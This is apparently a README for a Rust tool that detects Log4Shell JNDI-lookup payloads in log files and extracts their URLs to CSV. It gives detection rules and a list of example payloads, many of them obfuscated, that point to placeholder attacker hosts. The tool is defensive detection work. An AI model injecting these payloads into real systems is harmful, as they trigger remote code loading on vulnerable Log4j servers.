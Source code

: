# log4j_cop

Detects log4j payloads from a log file and optionally extracts URLs into a CSV file.

The CSV file will have two columns: `<URL>,<number of times URL showed up>`

## Usage

1. Build the binary

```
$ cargo build --release
```

2. Run

```
$ ./log4j_cop --help
log4j_cop 0.2
Bernardo de Araujo
Search logs for log4j payloads and optionally extract URLs.

USAGE:
    log4j_cop [OPTIONS] <LOG_FILE>

FLAGS:
    -h, --help       Prints help information
    -V, --version    Prints version information

OPTIONS:
    -u, --urls_output_path <urls_output_path>    When specified URLs will be extracted and persisted in CSV format

ARGS:
    <LOG_FILE>    Specifies the log file to be used
```

## Rules

Currently the following rules (and variants) are being accounted for:

- ${jndi:ldap://
- ${jndi:rmi://
- ${jndi:ldaps:/
- ${jndi:dns:/
- ${jndi:nis:/
- ${jndi:nds:/
- ${jndi:corba:/
- ${jndi:iiop:/

We are also taking into account:

- Mixed case payloads
- URL encoded payloads

## Algorithm

Each line is broken into characters and we run each character against characters from our rules.

1. For each rule, if a character matches the current character in that rule state machine we:
   - increment the state machine of that rule
   - otherwise the state remains the same
2. If the state machine of any rules reaches the end (every character in our rule is consumed):
   - return a match
   - otherwise return no match

## Examples of payloads being matched

```
${jndi:ldap://whatever.com/z}
${${env:ENV_NAME:-j}ndi${env:ENV_NAME:-:}${env:ENV_NAME:-l}dap${env:ENV_NAME:-:}//somesitehackerofhell.com/z}
${${lower:j}ndi:${lower:l}${lower:d}a${lower:p}://somesitehackerofhell.com/z}
${${upper:j}ndi:${upper:l}${upper:d}a${lower:p}://somesitehackerofhell.com/z}
${${::-j}${::-n}${::-d}${::-i}:${::-l}${::-d}${::-a}${::-p}://somesitehackerofhell.com/z}
${${::-j}${::-n}${::-d}${::-i}:${::-r}${::-m}${::-i}://asdasd.asdasd.asdasd/poc}
${${::-j}ndi:rmi://asdasd.asdasd.asdasd/ass}
${jndi:rmi://adsasd.asdasd.asdasd}
${${lower:jndi}:${lower:rmi}://adsasd.asdasd.asdasd/poc}
${${lower:${lower:jndi}}:${lower:rmi}://adsasd.asdasd.asdasd/poc}
${${lower:j}${lower:n}${lower:d}i:${lower:rmi}://adsasd.asdasd.asdasd/poc}
${${lower:j}${upper:n}${lower:d}${upper:i}:${lower:r}m${lower:i}}://xxxxxxx.xx/poc}
```
